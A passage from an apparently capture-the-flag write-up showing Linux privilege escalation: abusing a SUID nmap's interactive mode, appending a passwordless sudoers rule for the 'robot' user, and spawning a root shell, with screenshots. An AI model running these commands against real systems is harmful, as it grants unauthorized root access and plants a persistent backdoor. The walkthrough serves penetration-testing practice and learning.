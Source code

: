 
`nmap` has an suid. We can take advantage of this by prompting a “interactive” 


    /usr/local/bin/nmap --interactive

![](https://d2mxuefqeaa7sj.cloudfront.net/s_405DC3F9939739CBD4ADA0F1F065156E64A326BD68412B70034B9CB673AA702F_1552009533201_image.png)


we are not executing commands as root!

Since we have robots password we’ll just make him a sudoers

    ! echo "robot ALL =(ALL) NOPASSWD: ALL" >> /etc/sudoers

![](https://d2mxuefqeaa7sj.cloudfront.net/s_405DC3F9939739CBD4ADA0F1F065156E64A326BD68412B70034B9CB673AA702F_1552009829948_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_405DC3F9939739CBD4ADA0F1F065156E64A326BD68412B70034B9CB673AA702F_1552009875670_image.png)


we can no call an actual shell as root

    sudo /bin/sh

![](https://d2mxuefqeaa7sj.cloudfront.net/s_405DC3F9939739CBD4ADA0F1F065156E64A326BD68412B70034B9CB673AA702F_1552009988088_image.png)


Bring me the root!

-exec
